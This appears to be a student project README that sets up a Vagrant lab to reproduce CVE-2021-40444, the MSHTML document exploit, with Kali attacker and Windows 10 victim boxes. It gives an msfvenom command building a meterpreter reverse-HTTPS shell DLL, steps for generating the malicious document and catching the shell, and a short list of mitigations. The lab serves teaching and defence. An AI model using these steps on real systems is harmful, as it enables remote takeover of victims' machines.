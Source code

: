 # TIC4301_Project
TIC4301 Project - CVE-2021-40444

Download the following vagrant boxes:
Kali  -  https://drive.google.com/file/d/1RegQcT2jjFoaQRgLjXDYl4iS0HNt_mU2/view?usp=sharing
Win10 -  https://drive.google.com/file/d/1zcLertRoI-FrHDkRq1NO-KHaF88bMv6e/view?usp=sharing

Import the boxes with the following commands through vagrant:
  1. vagrant box add kali_package.box
  2. vagrant box add victim_package.box
  3. vagrant init kali_package.box
  4. vagrant init victim_package.box
  5. vagrant up

Setup (win10):
  1. In the win10 box, log in as administrator with the password vagrant.
  2. Right click script.ps1 on the desktop and run with powershell. (Leave this open)
  3. Run ipconfig.exe and obtain the address for this host.

Setup (Kali):
1. cd Desktop/CVE-2021-40444.
2. generate your malicious dll with msfvenom. # msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth1 LPORT=443 -f dll -o test/shell.dll
3. start a listener in metasploit.
4. generate the malicious document. # python3 exploit.py generate test/calc.dll http://<kali IP>
  5. visit http://<win 10 IP>/upload and upload the file.
  6. listen for the shell.
  
Mitigations:
  1. Install KB5005565 hotfix.
  2. Edit windows registry with patch.reg in the repository.
  
  
